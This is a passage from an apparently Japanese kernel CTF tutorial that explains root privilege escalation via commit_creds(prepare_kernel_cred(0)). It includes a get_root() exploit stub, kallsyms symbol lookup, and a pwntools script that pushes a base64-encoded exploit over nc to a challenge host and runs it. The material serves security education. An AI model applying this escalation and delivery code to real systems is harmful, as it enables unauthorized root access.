`commit_creds()`([/kernel/cred.c]())は、`task_struct`に対して新しい`cred`を上書きします:

```c
int commit_creds(struct cred *new)
{
  ...
	rcu_assign_pointer(task->real_cred, new);
	rcu_assign_pointer(task->cred, new);
  ...
}
```

つまり、**UIDが0であるような`cred`を`commit_creds()`に渡してやれば現在のプロセスをroot化させることができます**。
ではUID0の`cred`はどうやって作れるのでしょうか。
簡単な方法は大きく分けて2つあります:

### 1. `init_cred`を使う

`init_cred`([/kernel/cred.c]())はPID0プロセス用の`task_struct`が保持する`cred`です。
必然的にUID0を持っています。

```c
struct cred init_cred = {
	.usage			= ATOMIC_INIT(4),
#ifdef CONFIG_DEBUG_CREDENTIALS
	.subscribers		= ATOMIC_INIT(2),
	.magic			= CRED_MAGIC,
#endif
	.uid			= GLOBAL_ROOT_UID,
	.gid			= GLOBAL_ROOT_GID,
	.suid			= GLOBAL_ROOT_UID,
	.sgid			= GLOBAL_ROOT_GID,
  ...
}
```

しかもこのシンボルはexportされています。
よって、`commit_creds()`に`&init_cred`を渡してやると、UID0の`cred`で上書きできます。

### 2. `prepare_kernel_cred(0)`を使う

`prepare_kernel_cred(0)`([/kernel/cred.c]())は、引数に渡された`task_struct`をもとに新しい`cred`を作成します。
処理の詳細は読者におまかせしますが、`NULL`を渡した場合には`init_cred`を使って新しい`cred`を作成することになっています。
よって、先程の方法と同じく`commit_creds(prepare_kernel_cred(0))`を呼び出すことで、UID0の`cred`を作成して上書きすることができます。


## symbolを調べる

さて、ここまでで準備はできました。
exploit内に以下のような関数を用意しましょう:

```c
typedef int (*commit_creds_fn)(void *);
typedef void *(*prepare_kernel_cred_fn)(void *);
const commit_creds_fn commit_creds = (commit_creds_fn)0x000000000000000;
const prepare_kernel_cred_fn prepare_kernel_cred =
    (prepare_kernel_cred_fn)0x0000000000000000;

void get_root(void) { commit_creds(prepare_kernel_cred(0)); }
```

`get_root()`のアドレスを`ioctl`に渡してジャンプさせればrootを取ることができます。
しかし、関数を呼ぶためには関数のアドレスを知る必要があります。
色々と方法はありますが、`/proc/kallsyms`を読んでシンボル情報を取得するのが一番楽です。
ただし、このprocファイルはroot権限がないと読むことができません(厳密には、rootでないとアドレスがマスクされます)。
そのため、`initramfs`中の`/etc/init.d/S999p3land`の以下の箇所を修正しておきましょう:

```txt
## /proc/kallsymsにおけるポインタマスクを取り除く
#echo 2 > /proc/sys/kernel/kptr_restrict
echo 0 > /proc/sys/kernel/kptr_restrict

## dmesgにおけるポインタマスクを取り除く
#echo 1 > /proc/sys/kernel/dmesg_restrict
echo 0 > /proc/sys/kernel/dmesg_restrict

## rootでシェルを起動
#setsid cttyhack setuidgid 9999 sh
setsid cttyhack setuidgid 0 sh
```

これで`/proc/kallsyms`を読むことができるようになります:

```txt
/ # cat /proc/kallsyms | grep -e commit_creds -e prepare_kernel_cred
ffffffff810737b0 T commit_creds
ffffffff81073960 T prepare_kernel_cred
```

値をメモしたら、先程のexploitのところに書いておきましょう。

あとはローカルでexploitを動かすだけです。
先程rootでシェルを起動するように変更した場合には戻しておいてください。
実際に動かしてみると以下のようになります:


rootが取れました！

## Remote Exploit

続いて、実際にリモートでexploitを動かしてみましょう。
今回のkernel challengeではネットワークを有効にしているため`wget`等でビルドしたexploitをダウンロードさせることも出来るかもしれません。
しかし、今回は`nc`で確立した接続だけを使ってexploitを送り込むことにします。

まず、exploit自体は軽量なmusl libcを使ってビルドすることが望ましいです。
以下のような`Dockerfile`で作ったコンテナ上でexploitをビルドしましょう:

```sh
$ cat ./Dockerfile
FROM alpine
RUN apk add gcc musl-dev linux-headers

$ docker build -t p3land-exploit - < ./Dockerfile
  docker container run \
    -it \
    --rm \
    -v "$PWD:$PWD" \
    -w "$PWD" \
    "p3land-exploit" \
      /bin/sh -c "gcc exploit.c -o exploit --static"
```

続いて、もっと軽くします。さらに、bashのビルトイン機能だけで送れるようにASCII onlyに変換します:

```sh
strip ./exploit
gzip ./exploit
base64 ./exploit.gz > ./exploit.gz.b64
```

ここまでで下準備は終了です。
以下のコマンドを`sender.py`として用意してあげましょう:

```py
#!/usr/bin/env python
#encoding: utf-8;

from pwn import *
import sys,os

exploit_bin = "exploit.gz.b64"

## exploit ###########################################

def exploit():
  global c

  with open(exploit_bin, 'r') as f:
    binary = f.read()

  progress = 0
  N = 0x300

  c.sendlineafter('$', 'cd /tmp')

  print("[+] sending base64ed exploit (total: {})...".format(hex(len(binary))))
  for s in [binary[i: i+N] for i in range(0, len(binary), N)]:
    c.sendlineafter('$', 'echo -n "{}" >> exploit.gz.b64'.format(s)) # don't forget -n
    progress += N
    if progress % N == 0:
      print("[.] sent {} bytes [{} %]".format(hex(progress), float(progress)*100.0/float(len(binary))))
  c.sendlineafter('$', 'base64 -d exploit.gz.b64 > exploit.gz')
  c.sendlineafter('$', 'gunzip ./exploit.gz')

  c.sendlineafter('$', 'chmod +x ./exploit')
  c.sendlineafter('$', './exploit')

## main ##############################################

if __name__ == "__main__":
    global c
    c = remote("sc.skb.pw", 49404)
    exploit()
    c.interactive()
```

このスクリプトは、`exploit.gz.b64`の内容をリモートホスト上でひたすら`echo`し続けてコピーします。
その後、先程行った圧縮等の逆の処理をしてexploitを復元し、実行します。

```sh
python3 ./sender.py
```



リモートでrootが取れましたね！
フラグは`/root/flag`にあるのでぜひ取ってみてください。

-------------------------------------

この章以降はこんなに詳しく順を追ったコードリーディングの説明はしませんが、
実際にコードを読んで流れを追っていくことはとても勉強になります。
また、何をしてるかわからないコードを読んで唸るよりも、
debug symbolつきのvmlinuxをGDBに食べさせてbacktraceを見るなりしたほうがよっぽど効率的ということも分かっていただけたでしょうか。
ぜひこれからも少しでも気になったこと・分からないことがあれば、このような方法でコードリーディングをしてみてください。
